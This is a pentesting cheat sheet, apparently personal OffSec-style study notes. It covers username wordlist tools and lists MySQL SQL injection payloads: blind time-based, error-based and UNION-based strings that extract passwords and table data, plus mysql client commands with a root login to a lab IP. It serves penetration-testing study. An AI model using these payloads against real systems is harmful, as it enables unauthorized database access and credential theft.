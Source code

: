 generate user wordlist base user info
```
~/offsec/tools/userlistcreator.py

python3 ~/offsec/tools/cupp/cupp.py -i
```

another generate tool, username-anarchy https://github.com/urbanadventurer/username-anarchy
```
~/offsec/tools/username-anarchy --input-file ./user.txt > users.txt
```


### SQL

#### MYSQL

##### sqli

https://book.hacktricks.xyz/pentesting-web/sql-injection

Blind SQL Injections

```
' AND IF (1=1, sleep(5),'false') -- //
```

Identifying SQLi via Error-based Payloads

```
' OR 1=1 -- //
' or 1=1 in (select @@version) -- //
' OR 1=1 in (SELECT * FROM users) -- //
' or 1=1 in (SELECT password FROM users) -- //
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

UNION-based Payloads

```
' ORDER BY 1-- //
%' UNION SELECT database(), user(), @@version, null, null -- //
' UNION SELECT null, null, database(), user(), @@version  -- //
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
' UNION SELECT null, username, password, description, null FROM users -- //
```

##### general commands

```
# connect to mysql DB
mysql -u root -p'root' -h 192.168.50.16 -P 3306

# check version
select version();

#check users
select system_user();

# list databases
show databases;

# list tables
show tables from <database>;

# chose database
use <database>;

# show table
```